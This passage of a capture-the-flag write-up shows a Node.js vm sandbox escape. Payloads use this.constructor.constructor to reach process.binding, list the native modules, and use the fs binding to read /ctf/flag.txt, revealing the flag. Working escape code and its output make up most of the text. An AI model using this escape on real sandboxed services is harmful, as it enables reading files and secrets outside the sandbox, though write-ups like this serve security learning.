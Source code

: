 ```javascript
> (this.constructor.constructor("var n = this.process.binding('natives'); return Object.getOwnPropertyNames(n);"))()
_http_agent,_http_client,_http_common,_http_incoming,_http_outgoing,_http_server,_stream_duplex,_stream_passthrough,_stream_readable,_stream_transform,_stream_wrap,_stream_writable,_tls_common,_tls_wrap,assert,async_hooks,buffer,child_process,cluster,console,constants,crypto,dgram,dns,domain,events,fs,fs/promises,http,http2,https,inspector ...
```

We can see that `fs` is effectively among the possible bindings. `child_process` is mentioned as well, so I tried using it directly to execute os commands directly, but it fails. It would seem that not all the listed bindings are available to use:

```javascript
> (this.constructor.constructor("var c = this.process.binding('child_process'); return c;"))()
An error occurred.
```

So, I focused back on `fs`. Taking a look at the available properties, we can see a list of common methods

```javascript
> (this.constructor.constructor("var fs = this.process.binding('fs'); return Object.getOwnPropertyNames(fs);"))()
access,close,open,openFileHandle,read,readBuffers,fdatasync,fsync,rename,ftruncate,rmdir,mkdir,readdir,internalModuleReadJSON,internalModuleStat,stat,lstat,fstat,link,symlink,readlink,unlink,writeBuffer,writeBuffers,writeString,realpath,copyFile,chmod,fchmod,chown,fchown,lchown,utimes,futimes,mkdtemp,kFsStatsFieldsNumber,statValues,bigintStatValues,StatWatcher,FSReqCallback,FileHandle,kUsePromises

> (this.constructor.constructor("var fs = this.process.binding('fs'); return fs.open;"))()
function open() { [native code] }
```

And from resource #2, we can see these bindings are using os commands for [open](https://linux.die.net/man/2/open), [read](https://linux.die.net/man/2/read), etc.

So, from here we basically need to open the ctf flag file and read it!
Below is the code-recipe:

```javascript
var fs = this.process.binding('fs');
var readonly_flag = 0;
var mode = 0o666;
var fd  = fs.open('/ctf/flag.txt', readonly_flag, mode, undefined, {path: '/ctf/flag.txt'});
var buffer = Buffer.alloc(100);
fs.read(fd, buffer, 0, 100, -1, undefined, {});
return buffer;
```

In order to put the code-recipe together, I had to look on the source files of NodeJS on how fs was being used to open and read, so to understand the flags, mode, buffer, etc
- [fs lib](https://github.com/nodejs/node/blob/master/lib/fs.js)
- [buffer lib](https://github.com/nodejs/node/blob/master/lib/buffer.js)

Placing the command alltogether in a one-liner and running it...
```javascript
> (this.constructor.constructor("var fs = this.process.binding('fs');var readonly_flag = 0;var mode = 0o666;var fd  = fs.open('/ctf/flag.txt', readonly_flag, mode, undefined, {path: '/ctf/flag.txt'}); var buffer = Buffer.alloc(100); fs.read(fd, buffer, 0, 100, -1, undefined, {});return buffer;"))()

flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```
---
